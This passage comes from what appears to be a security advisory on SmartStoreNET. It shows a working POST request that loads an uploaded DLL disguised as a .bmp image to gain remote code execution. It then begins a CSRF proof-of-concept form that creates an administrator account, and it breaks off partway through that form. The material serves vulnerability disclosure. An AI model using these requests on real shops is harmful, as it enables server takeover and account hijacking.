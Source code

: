 "avatarUrl":"//localhost:65516/media/241/customer/mixedpoc.dll.bmp?size=256"
}
</code></pre></div></div>
<p>indicates that the file was renamed to <code class="language-plaintext highlighter-rouge">0000241.bmp</code>.
Once the file is uploaded the Attacker just needs to issue the following request (formatted for readability):</p>
<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>POST /customer/addressadd HTTP/1.1
...
Address.Id=0&amp;
Address.Company=&amp;
Address.FirstName=fdfdf&amp;
Address.LastName=fdfdf&amp;
Address.Address1=2ewd&amp;
Address.Address2=&amp;
Address.City=fdffdf&amp;
Address.ZipPostalCode=1234&amp;
Address.CountryId=88&amp;
Address.StateProvinceId=0&amp;
Address.Email=asdf%40gmail.com&amp;
Address.PhoneNumber=12345678&amp;
Address.FaxNumber=&amp;
CustomProperties%5BProviderConfigData%5D.__Type__=System.Configuration.Install.AssemblyInstaller,%20System.Configuration.Install,%20Version%3d4.0.0.0,%20Culture%3dneutral,%20PublicKeyToken%3db03f5f7f11d50a3a&amp;
CustomProperties%5BProviderConfigData%5D.Path=file:///../../Presentation\SmartStore.Web\App_Data\Tenants\Default\Media\Storage\0000\0000241.bmp
</code></pre></div></div>
<p>The PoC triggers a payload from the uploaded dll on the first request. Since the dll stays attached in memory the Attacker needs to upload another file to execute the code again.</p>

<h4 id="impact">Impact</h4>

<p>The issue is not limited to the <code class="language-plaintext highlighter-rouge">addressadd</code> endpoint, but the specific endpoint requires authentication. However it is easy to register an account in a e-shop. As such this issue may lead to RCE by any authenticated user.</p>

<h3 id="issue-2-ghsl-2020-139-lack-of-cross-site-request-forgery-csrf-protection-may-lead-to-elevation-of-privileges">Issue 2: GHSL-2020-139 Lack of Cross Site Request Forgery (CSRF) protection may lead to elevation of privileges</h3>

<p>Most of SmartStoreNET’s state changing endpoints are not protected from CSRF attack. An obvious attack example would be to add a new administrator user through an CSRF attack when a logged-in existing administrator of SmartStoreNET visits a malicious site:</p>
<div class="language-html highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="nt">&lt;html&gt;</span>
  <span class="nt">&lt;body&gt;</span>
    <span class="nt">&lt;form</span> <span class="na">action=</span><span class="s">"http://localhost:65516/admin/customer/create"</span> <span class="na">method=</span><span class="s">"POST"</span><span class="nt">&gt;</span>
      <span class="nt">&lt;input</span> <span class="na">type=</span><span class="s">"hidden"</span> <span class="na">name=</span><span class="s">"save"</span> <span class="na">value=</span><span class="s">"save"</span> <span class="nt">/&gt;</span>
      <span class="nt">&lt;input</span> <span class="na">type=</span><span class="s">"hidden"</span> <span class="na">name=</span><span class="s">"Id"</span> <span class="na">value=</span><span class="s">"0"</span> <span class="nt">/&gt;</span>
      <span class="nt">&lt;input</span> <span class="na">type=</span><span class="s">"hidden"</span> <span class="na">name=</span><span class="s">"Username"</span> <span class="na">value=</span><span class="s">"Super"</span> <span class="nt">/&gt;</span>
      <span class="nt">&lt;input</span> <span class="na">type=</span><span class="s">"hidden"</span> <span class="na">name=</span><span class="s">"Email"</span> <span class="na">value=</span><span class="s">"super&amp;#64;super&amp;#46;com"</span> <span class="nt">/&gt;</span>